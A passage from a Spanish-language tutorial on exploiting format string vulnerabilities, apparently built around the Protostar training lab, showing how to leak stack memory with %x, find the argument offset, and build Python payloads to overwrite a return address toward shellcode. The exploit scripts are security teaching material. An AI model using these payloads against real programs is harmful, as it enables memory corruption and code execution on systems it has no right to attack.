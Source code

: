 Imprimir memoria de la pila con `%x` permite filtrar información relevante, pero también facilita futuros cálculos necesarios para lograr un ataque más sofisticado.&#x20;

#### **Obtener el offset**

**El punto clave es conocer cuál de los parámetros `%08x`** **es el que imprime el comienzo del format string.** Si contamos con esa información podemos incluir al principio del format string ya no `"AAAA..."` sino una dirección cuyo contenido queramos inspeccionar o en la cual queramos escribir un valor.\
Con este objetivo, primero debemos identificar ese parámetro `%08x` que imprime el comienzo del format string. Y luego lo reemplazamos por `%s` o `%n` para inspeccionar o imprimir en esa dirección de memoria.

#### Redirigir el flujo mediante escritura arbitraria

En este caso el objetivo será escribir en un sector de la pila y ya no sólo imprimir su contenido. Siguiendo con el mismo programa de ejemplo, suponemos un escenario en el que queremos sobreescribir una dirección de retorno para reemplazarla -por ejemplo- por la dirección de nuestro shellcode. Supongamos que esa dirección de retorno está almacenada en la pila en la dirección `0xbffff364`, lo primero que hacemos es incluir esa dirección al comienzo del format string:

```python
#!/usr/bin/env python

import sys
from struct import pack

def pad(s):                       #evita variaciones en pila por long. de input
    return (s + "A"*1000)[:1000]        

ret_addr = 0xbffff364             #addr a sobreescribir

exploit  = "AA"                   #alineacion de ret_addr
exploit += pack("<I", ret_addr)   #incluimos ret_addr en format string
exploit += "%08x ." * 150

sys.stdout.write(pad(exploit))
```

Creamos un input que comienza con `AA` -para lograr la alineación de la `ret_addr`- seguido de la dirección de retorno.\
Si ejecutamos vemos al comienzo del output que la función `printf()` imprime las dos `"AA"` y la dirección de retorno como caracteres no imprimibles. Pero si observamos el resto de la impresión de la pila, vemos esas dos `0x4141` seguidas de la dirección `0xbffff364` (que subrayamos en la imagen a continuación).\


![](https://fundacion-sadosky.github.io/guia-escritura-exploits/format-string/imagenes/teoria/debug-protostar-2.png)

Entonces sabemos que un determinado especificador `%08x` es el que imprime `0xbffff364`, por lo que nos queda descubrir cuál es. Con `gdb` después de prueba y error analizando el output y quitando parámetros, descubrimos que el `%08x` número 120 es el encargado de imprimir la `ret_addr`.

```python
#!/usr/bin/env python

import sys
from struct import pack

def pad(s):                       
    return (s + "A"*1000)[:1000]        

ret_addr = 0xbffff364             #addr a sobreescribir

exploit  = "AA"                   
exploit += pack("<I", ret_addr)
exploit += "%08x ." * 120         #el último parámetro imprime la ret_addr
```